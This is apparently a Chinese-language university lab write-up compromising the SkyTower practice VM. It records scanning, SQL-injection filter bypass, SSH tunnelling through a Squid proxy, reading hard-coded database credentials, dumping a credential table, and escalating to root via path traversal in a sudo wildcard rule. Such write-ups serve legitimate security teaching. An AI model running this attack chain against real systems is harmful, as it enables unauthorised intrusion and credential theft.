



Lab9
Network Atk&Def lab9 241840273 杨良灼
查询攻击机 ip
└─$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.0.2.4 netmask 255.255.255.0 broadcast 10.0.2.255
inet6 fe80::9d17:dec1:4341:a804 prefixlen 64 scopeid 0x20<link>
ether 08:00:27:3c:97:80 txqueuelen 1000 (Ethernet)
RX packets 1 bytes 590 (590.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 24 bytes 3152 (3.0 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 8 bytes 480 (480.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 8 bytes 480 (480.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
主机发现
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:3c:97:80, IPv4: 10.0.2.4
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1 52:54:00:12:35:00 (Unknown: locally administered)
10.0.2.2 52:54:00:12:35:00 (Unknown: locally administered)
10.0.2.3 08:00:27:cc:7d:ae (Unknown)
10.0.2.17 08:00:27:83:79:65 (Unknown)
4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.933 seconds (132.44 hosts/sec). 4 responded
端口扫描
└─$ sudo nmap -p- -sV -sC 10.0.2.17
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-08 07:50 EST
Nmap scan report for bogon (10.0.2.17)
Host is up (0.00047s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp filtered ssh
80/tcp open http Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:83:79:65 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.42 seconds
我们分析一下：第一个是 22 号端口，是一个目前是 filtered 的 SSH 服务；第二个是 80 端口的基于 Apache 2.22 的 HTTP 服务；第三个是 3128 端口的 Squid 代理服务。另外靶机操作系统为 Debian.
尝试访问各端口，发现 80 端口的 HTTP 服务是可以访问的。

尝试 SQL 注入，这里课上是使用 Burp Suite 加一个 SQL 注入表尝试——这是因为多尝试几次发现有 SQL 注入过滤，禁用了某些字符。
使用 '- 注入，成功。

页面拦住我们不让进去，但是提供了账密，并引导我们登陆 SSH：
Username: john
Password: hereisjohn
尝试直接 SSH 访问：
└─$ ssh john@10.0.2.17 -p 22 ^C
等待许久都连不上，应该是被拦住了，当然这也对应上面 SSH 服务端口的 filtered 状态。
考虑借助 3128 端口的代理服务访问 SSH 服务（内网访问）。
首先建立一个隧道：
└─$ proxytunnel -p 10.0.2.17:3128 -d 10.0.2.17:22 -a 3343
然后连接本地的代理端口：
└─$ ssh -p 3343 john@127.0.0.1
The authenticity of host '[127.0.0.1]:3343 ([127.0.0.1]:3343)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:3343' (ECDSA) to the list of known hosts.
john@127.0.0.1's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014
Funds have been withdrawn
Connection to 127.0.0.1 closed.

SSH 成功登陆上了，但是返回 Funds have been withdrawn 后就直接断开了连接。
这表明对面有一定防范措施，我们查看一些信息：
└─$ ssh -p 3343 john@127.0.0.1 "cat ~/.bashrc"
john@127.0.0.1's password:
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples
# If not running interactively, don't do anything
case $- in
*i*) ;;
*) return;;
esac
# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth
# append to the history file, don't overwrite it
shopt -s histappend
# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000
# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize
# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar
# make less more friendly for non-text input files, see lesspipe(1)
#[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"
# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
debian_chroot=$(cat /etc/debian_chroot)
fi
# set a fancy prompt (non-color, unless we know we "want" color)
case "$TERM" in
xterm-color) color_prompt=yes;;
esac
# uncomment for a colored prompt, if the terminal has the capability; turned
# off by default to not distract the user: the focus in a terminal window
# should be on the output of commands, not on the prompt
#force_color_prompt=yes
if [ -n "$force_color_prompt" ]; then
if [ -x /usr/bin/tput ] && tput setaf 1 >&/dev/null; then
# We have color support; assume it's compliant with Ecma-48
# (ISO/IEC-6429). (Lack of such support is extremely rare, and such
# a case would tend to support setf rather than setaf.)
color_prompt=yes
else
color_prompt=
fi
fi
if [ "$color_prompt" = yes ]; then
PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
else
PS1='${debian_chroot:+($debian_chroot)}\u@\h:\w\$ '
fi
unset color_prompt force_color_prompt
# If this is an xterm set the title to user@host:dir
case "$TERM" in
xterm*|rxvt*)
PS1="\[\e]0;${debian_chroot:+($debian_chroot)}\u@\h: \w\a\]$PS1"
;;
*)
;;
esac
# enable color support of ls and also add handy aliases
if [ -x /usr/bin/dircolors ]; then
test -r ~/.dircolors && eval "$(dircolors -b ~/.dircolors)" || eval "$(dircolors -b)"
alias ls='ls --color=auto'
#alias dir='dir --color=auto'
#alias vdir='vdir --color=auto'
#alias grep='grep --color=auto'
#alias fgrep='fgrep --color=auto'
#alias egrep='egrep --color=auto'
fi
# some more ls aliases
#alias ll='ls -l'
#alias la='ls -A'
#alias l='ls -CF'
# Alias definitions.
# You may want to put all your additions into a separate file like
# ~/.bash_aliases, instead of adding them here directly.
# See /usr/share/doc/bash-doc/examples in the bash-doc package.
if [ -f ~/.bash_aliases ]; then
. ~/.bash_aliases
fi
# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
if [ -f /usr/share/bash-completion/bash_completion ]; then
. /usr/share/bash-completion/bash_completion
elif [ -f /etc/bash_completion ]; then
. /etc/bash_completion
fi
fi
echo
echo "Funds have been withdrawn"
exit
果然存在这样一种脚本强行把我们拦住，考虑最直接的一种处理方式：使用 john 用户的权限将该脚本删除：
└─$ ssh -p 3343 john@127.0.0.1 "rm -f ~/.bashrc"
john@127.0.0.1's password:
┌──(kali㉿kali)-[~]
└─$ ssh -p 3343 john@127.0.0.1 "cat ~/.bashrc"
john@127.0.0.1's password:
cat: /home/john/.bashrc: No such file or directory
删除成功。
接下来我们继续尝试登入：
└─$ ssh -p 3343 john@127.0.0.1
john@127.0.0.1's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Dec 8 08:01:47 2025 from 10.0.2.17
john@SkyTower:~$
登入成功，接下来尝试提权。
考虑从 www-data 入手，于是查看 /var/www 中的 SQL 信息：
john@SkyTower:~$ cd /var/www
john@SkyTower:/var/www$ ls -l
total 5292
-rwxr--r-- 1 root root 2831446 Jun 20 2014 background2.jpg
-rwxr--r-- 1 root root 2572609 Jun 20 2014 background.jpg
-rwxr--r-- 1 root root 1136 Jun 20 2014 index.html
-rwxr--r-- 1 root root 2393 Jun 20 2014 login.php
john@SkyTower:/var/www$
看一下这个 login.php 文件：
john@SkyTower:/var/www$ cat login.php
<?php
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
if($db->connect_errno > 0){
die('Unable to connect to database [' . $db->connect_error . ']');
}
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);
$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);
if(!$result)
die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
die('<br>Login Failed</br>');
$row = $result->fetch_assoc();
echo "<HTML>";
echo '
<div style="height:100%; width:100%;background-image:url(\'background.jpg\');
background-size:100%;
background-position:50% 50%;
background-repeat:no-repeat;">
<div style="
padding-right:8px;
padding-left:10px;
padding-top: 10px;
padding-bottom: 10px;
background-color:white;
border-color: #000000;
border-width: 5px;
border-style: solid;
width: 400px;
height:430px;
position:absolute;
top:50%;
left:50%;
margin-top:-215px; /* this is half the height of your div*/
margin-left:-200px;
">
';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account. For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"
?>
john@SkyTower:/var/www$
我们发现了 SQL 注入的黑名单：
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
程序直接将这些子串替换为空串，从而破坏注入代码：
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);
以及账密：
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
这表明 mysqli 可以以 root 和 root 的账密登陆本机 MySQL 的 SkyTech 数据库。
于是我们尝试进入这个数据库：
john@SkyTower:/var/www$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 41
Server version: 5.5.35-0+wheezy1 (Debian)
Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql>
开始查询数据库内的内容：
mysql> SHOW DATABASES;
+--------------------+
| Database |
+--------------------+
| information_schema |
| SkyTech |
| mysql |
| performance_schema |
+--------------------+
4 rows in set (0.02 sec)
mysql> USE SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login |
+-------------------+
1 row in set (0.00 sec)
mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email | password |
+----+---------------------+--------------+
| 1 | john@skytech.com | hereisjohn |
| 2 | sara@skytech.com | ihatethisjob |
| 3 | william@skytech.com | senseable |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
mysql> exit
Bye
于是我们轻松得到了三名员工的账密，可以在 SSH 上一一验证：Sara 的可登陆，William 的登不上去。
尝试切换到 Sara 的账户，先按 Ctrl + D 退出：
john@SkyTower:/var/www$ logout
Connection to 127.0.0.1 closed.
然后重连：
└─$ ssh -p 3343 sara@127.0.0.1
sara@127.0.0.1's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 08:19:23 2014 from localhost
Funds have been withdrawn
Connection to 127.0.0.1 closed.
┌──(kali㉿kali)-[~]
└─$ ssh -p 3343 sara@127.0.0.1 "cat ~/.bashrc"
# 此处省略
┌──(kali㉿kali)-[~]
└─$ ssh -p 3343 sara@127.0.0.1 "rm -f ~/.bashrc"
sara@127.0.0.1's password:
┌──(kali㉿kali)-[~]
└─$ ssh -p 3343 sara@127.0.0.1
sara@127.0.0.1's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Dec 8 08:22:25 2025 from 10.0.2.17
sara@SkyTower:~$
反正是重删了一遍脚本，然后登入，直接查看一下 sara 用户的权限：
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User sara may run the following commands on this host:
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$
发现 sara 能无条件使用根权限对 /accounts/* 的 cat 和 ls.
sara@SkyTower:~$ cd /accounts
sara@SkyTower:/accounts$ ls -la
total 8
drwxr-xr-x 2 root root 4096 Jun 20 2014 .
drwxr-xr-x 24 root root 4096 Jun 20 2014 ..
sara@SkyTower:/accounts$
然而，这是个空文件夹。
不过，既然是 /accounts/*，那么我们可以尝试地址绕过，看看上级目录中有没有什么能看的：
sara@SkyTower:/accounts$ cd ..
sara@SkyTower:/$ ls -la
total 92
drwxr-xr-x 24 root root 4096 Jun 20 2014 .
drwxr-xr-x 24 root root 4096 Jun 20 2014 ..
drwxr-xr-x 2 root root 4096 Jun 20 2014 accounts
drwxr-xr-x 2 root root 4096 Jun 20 2014 bin
drwxr-xr-x 3 root root 4096 Jun 20 2014 boot
drwxr-xr-x 14 root root 3020 Dec 8 07:46 dev
drwxr-xr-x 66 root root 4096 Dec 8 08:26 etc
drwxr-xr-x 5 root root 4096 Jun 20 2014 home
lrwxrwxrwx 1 root root 30 Jun 20 2014 initrd.img -> /boot/initrd.img-3.2.0-4-amd64
drwxr-xr-x 12 root root 4096 Jun 20 2014 lib
drwxr-xr-x 2 root root 4096 Jun 20 2014 lib64
drwx------ 2 root root 16384 Jun 20 2014 lost+found
drwxr-xr-x 3 root root 4096 Jun 20 2014 media
drwxr-xr-x 2 root root 4096 Jan 28 2014 mnt
drwxr-xr-x 2 root root 4096 Jun 20 2014 opt
dr-xr-xr-x 75 root root 0 Dec 8 07:46 proc
drwx------ 4 root root 4096 Jun 20 2014 root
drwxr-xr-x 12 root root 480 Dec 8 07:46 run
drwxr-xr-x 2 root root 4096 Jun 20 2014 sbin
drwxr-xr-x 2 root root 4096 Jun 10 2012 selinux
drwxr-xr-x 2 root root 4096 Jun 20 2014 srv
drwxr-xr-x 13 root root 0 Dec 8 07:45 sys
drwxrwxrwt 2 root root 4096 Dec 8 08:17 tmp
drwxr-xr-x 10 root root 4096 Nov 18 2012 usr
drwxr-xr-x 12 root root 4096 Jun 20 2014 var
lrwxrwxrwx 1 root root 26 Jun 20 2014 vmlinuz -> boot/vmlinuz-3.2.0-4-amd64
sara@SkyTower:/$
看到这里有个 root 文件夹，可能和根权限有关，我们尝试通过地址绕过的方式查看：
sara@SkyTower:/accounts$ sudo /bin/ls /accounts/../root -la
total 36
drwx------ 4 root root 4096 Jun 20 2014 .
drwxr-xr-x 24 root root 4096 Jun 20 2014 ..
drwx------ 2 root root 4096 Jun 20 2014 .aptitude
-rw------- 1 root root 204 Jun 20 2014 .bash_history
-rw-r--r-- 1 root root 570 Jan 31 2010 .bashrc
-rwx------ 1 root root 69 Jun 20 2014 flag.txt
-rw------- 1 root root 268 Jun 20 2014 .mysql_history
-rw-r--r-- 1 root root 140 Nov 19 2007 .profile
drwx------ 2 root root 4096 Jun 20 2014 .ssh
我们发现其中有个 flag.txt，这应该就是我们想得到的，cat 查看之：
sara@SkyTower:/accounts$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
果然得到了密码：theskytower，接下来切换到 root 账户即可：
└─$ ssh -p 3343 root@127.0.0.1
root@127.0.0.1's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 09:01:28 2014
root@SkyTower:~# whoami
root
root@SkyTower:~# passwd
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
root@SkyTower:~#
修改密码为 s0aked1208，接下来登入靶机：
登入成功！